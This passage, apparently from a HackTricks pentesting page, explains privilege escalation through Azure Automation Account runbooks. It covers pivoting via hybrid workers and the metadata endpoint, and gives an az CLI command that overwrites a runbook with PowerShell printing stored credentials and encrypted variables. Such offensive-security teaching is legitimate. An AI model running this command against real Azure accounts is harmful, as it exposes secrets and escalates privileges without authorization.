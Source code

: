 # Az - Azure Automation Accounts Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Automation Accounts

Fore more information check:

{{#ref}}
../az-services/az-automation-accounts.md
{{#endref}}

### Hybrid Workers Group

Remember that if somehow an attacker can execute an arbitrary runbook (arbitrary code) in a hybrid worker, he will **pivot to the location of the VM**. This could be an on-premise machine, a VPC of a different cloud or even an Azure VM.

Moreover, if the hybrid worker is running in Azure with other Managed Identities attached, the runbook will be able to access the **managed identity of the runbook and all the managed identities of the VM from the metadata service**.

> [!TIP]
> Remember that the **metadata service** has a different URL (**`http://169.254.169.254`**) than the service from where get the managed identities token of the automation account (**`IDENTITY_ENDPOINT`**).

### `Microsoft.Automation/automationAccounts/jobs/write`, `Microsoft.Automation/automationAccounts/runbooks/draft/write`, `Microsoft.Automation/automationAccounts/jobs/output/read`, `Microsoft.Automation/automationAccounts/runbooks/publish/action` (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Automation/automationAccounts/runbooks/write`)

As summary these permissions allow to **create, modify and run Runbooks** in the Automation Account which you could use to **execute code** in the context of the Automation Account and escalate privileges to the assigned **Managed Identities** and leak **credentials** and **encrypted variables** stored in the Automation Account.

The permission **`Microsoft.Automation/automationAccounts/runbooks/draft/write`** allows to modify the code of a Runbook in the Automation Account using:

```bash
# Update the runbook content with the provided PowerShell script
az automation runbook replace-content --no-wait \
  --resource-group Resource_Group_1 \
  --automation-account-name autoaccount1 \
  --name AzureAutomationTutorialWithIdentity \
  --content '$creds = Get-AutomationPSCredential -Name "<credential-name>"
$runbook_variable = Get-AutomationVariable -Name "<encrypted-variable-name>"
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password'
```
